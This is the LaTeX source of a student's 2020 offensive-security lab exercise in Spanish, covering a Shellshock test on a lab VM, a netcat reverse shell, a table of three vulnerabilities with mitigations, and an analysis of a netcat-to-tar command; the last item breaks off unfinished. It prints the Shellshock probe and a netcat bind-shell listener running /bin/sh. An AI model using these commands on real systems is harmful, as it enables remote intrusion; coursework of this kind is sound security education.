\documentclass[11pt,a4paper]{article}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage[left=2cm,right=2cm,top=2cm,bottom=2cm]{geometry}
\usepackage{multicol}
\author{Iker M. Canut}
\usepackage{array}
\newcolumntype{S}{>{\centering\arraybackslash}m{3cm}}
\newcolumntype{M}{>{\centering\arraybackslash}m{4cm}}
\newcolumntype{L}{>{\centering\arraybackslash}m{5cm}}
\title{Pr\'actico 0: \\ Seguridad Ofensiva\\Licenciatura en Ciencias de la Computaci\'on\\ FAMAF}
\date{2020}
\begin{document}
\maketitle
\newpage

\begin{enumerate}

\item La direcci\'on IP de la m\'aquina virtual Kali en este caso es 192.168.1.155 (Bridged).
\item La direcci\'on IP de la m\'aquina virtual OWASP en este caso es 192.168.1.133 (Bridged).\\
Tras ejecutar \textbf{env x='() \{ :;\}; echo vulnerable' bash -c "echo test"} vemos que es vulnerable a Shellshock.
\item Luego de ejecutar todas las instrucciones mostradas, se procede a modificar el c\'odigo para poder asi, con ayuda de netcat, conseguir una reverse shell.
\begin{center}

\includegraphics[scale=.6]{codigo.png}\\
\end{center}
Se adjunta una imagen llamada shell.png donde se muestra la shell conseguida.


\item $\ \ $
\begin{table}[h]
\begin{center}
\begin{tabular}{|S|L|M|M|}
\hline
& ENLACE 1 & ENLACE 2 & ENLACE 3\\
\hline
Cual es el riesgo? & RCE (remote code execution: execute arbitrary code on victim's computer). "0day" vulnerability. & Perdida de confidencialidad. &  Execute arbitrary code via a crafted environment.\\
\hline
Requerimientos para la explotaci\'on & Tener instalado Zoom en Windows 7 y realizar una accion tipica, como abrir un documento. & Tener GnuTLS con versiones entre la 3.6.4 $<$ 3.6.14. & GNU Bash 1.14 $<$ 4.3\\
\hline
Como mitigar la vulnerabilidad? & Se podria considerar la posibilidad de instalar el parche de 0patch aunque, si bien es reconocido internacionalmente, aplicar parches desconocidos a binarios de Windows no me parece una buena idea. De todas maneras, Zoom saco una nueva version en donde arreglan este error al dia siguiente, por lo que actualizar el programa solucionaria esta vulnerabilidad. & Actualizar. & Actualizar Bash\\
\hline
\end{tabular}
\end{center}
\end{table}

\item El diccionario con los aliases se llama ekoparty.txt. Adem\'as, se agregan los nombres completos de las personas en un archivo aparte.

\item Para analizar el comando \textbf{nc 143.0.100.198 1099 $|$ sudo tar -xf -} comenzaremos con la parte de netcat, es decir, nc. Esto se usa generalmente para crear una bind shell, donde el atacante se conecta a la victima con IP 143.0.100.198 al puerto 1099. En la victima se deberia ejecutar \textit{nc -nlvp 1099 -e /bin/sh}. Luego, la salida de este comando se redirecciona al comando tar, el cual con los parametos xf extrae un archivo ???? 


\end{enumerate}

\end{document}
